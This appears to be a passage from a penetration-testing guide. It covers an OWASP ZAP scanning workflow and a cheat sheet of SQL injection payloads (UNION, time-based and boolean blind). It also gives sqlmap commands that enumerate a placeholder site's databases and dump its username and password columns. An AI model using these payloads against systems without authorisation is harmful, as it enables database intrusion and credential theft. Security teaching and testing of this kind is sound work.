 **ZAP Workflow**
1. Configure proxy (usually localhost:8080)
2. Set browser to use ZAP proxy
3. Spider the application
4. Passive scanning (automatic)
5. Active scanning (manual start)
6. Review alerts
7. Generate report

## Web Application Vulnerabilities

### 
### Manual Vulnerability Testing

#### SQL Injection Testing
```bash
# Basic test payloads
' OR '1'='1
' OR '1'='1'--
' OR '1'='1'/*
admin'--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

# Time-based blind SQLi
' AND SLEEP(5)--
'; WAITFOR DELAY '00:00:05'--

# Boolean-based blind SQLi
' AND 1=1--  # Should work
' AND 1=2--  # Should fail

# sqlmap automated testing
sqlmap -u "http://target.com/page?id=1"
sqlmap -u "http://target.com/page?id=1" --dbs
sqlmap -u "http://target.com/page?id=1" -D database --tables
sqlmap -u "http://target.com/page?id=1" -D database -T users --columns
sqlmap -u "http://target.com/page?id=1" -D database -T users -C username,password --dump

# POST request
sqlmap -u "http://target.com/login" --data="user=admin&pass=admin"

# With authentication
sqlmap -u "http://target.com/page?id=1" --cookie="PHPSESSID=abc123"
```

---

# PART IV: EXPLOITATION - COMPLETE
